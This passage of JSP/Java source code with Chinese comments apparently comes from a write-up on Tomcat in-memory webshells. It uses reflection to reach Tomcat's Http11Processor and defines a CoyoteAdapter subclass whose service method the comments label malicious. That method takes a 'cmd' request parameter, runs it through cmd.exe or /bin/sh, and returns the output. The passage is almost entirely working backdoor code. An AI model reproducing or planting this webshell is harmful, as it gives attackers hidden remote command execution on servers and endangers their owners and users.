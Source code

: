```jsp
//                    正好可以用此方法获取 value 属性
                    Method method = node.getMethod("getValue");
                    method.setAccessible(true);
//                    Array.getLength(table.get(connections)) 是内部类对象数组的长度
//                    遍历内部类对象数组拿到 Http11Processor 对象
                    for(int i = 0; i < Array.getLength(table.get(connections)); i++){
                        Object obj = Array.get(table.get(connections),i);
                        if (obj!=null){
                            Http11Processor res = (Http11Processor) method.invoke(obj);
                            return res;
                        }
                    }
                }
            } catch (Exception e) {
                continue;
            }
        }
//         没有获取到对应 Http11Processor，返回一个空对象，这里随便新建一个 Http11Processor 对象
        return new Http11Processor(8192,true,false,null,8192,null, 8192,2097152,null,false);
    }

//    反射获取属性方法
    public Object getField(Object obj, String field) {
        // 递归获取类的及其父类的属性
        Class clazz = obj.getClass();
        while (clazz != Object.class) {
            try {
                Field declaredField = clazz.getDeclaredField(field);
                declaredField.setAccessible(true);
                return declaredField.get(obj);
            } catch (Exception e) {
                clazz = clazz.getSuperclass();
            }
        }
        return null;
    }

//    自定义包含有恶意重写的 service 方法的 Adapter 类
    public class myAdapter extends CoyoteAdapter {
        public myAdapter(Connector connector) {
            super(connector);
        }

//        恶意 service 方法
        public void service(Request req, Response res) throws Exception {
            // evil code，命令执行在此
            try {
                String cmd = getRequest();
                String[] cmds = System.getProperty("os.name").toLowerCase().contains("windows") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};
                byte[] result = new java.util.Scanner(new ProcessBuilder(cmds).start().getInputStream()).useDelimiter("\\A").next().getBytes();
                getResponse(result);
            } catch (Exception e) {
                e.printStackTrace();
            }
        }

//        获取命令执行参数传入 cmd
        public String getRequest() {
            String cmd = "";
//            从 Http11Processor 对象拿到 request 对象，最终拿到参数 cmd
            Http11Processor http11Processor = getHttp11Processor();
```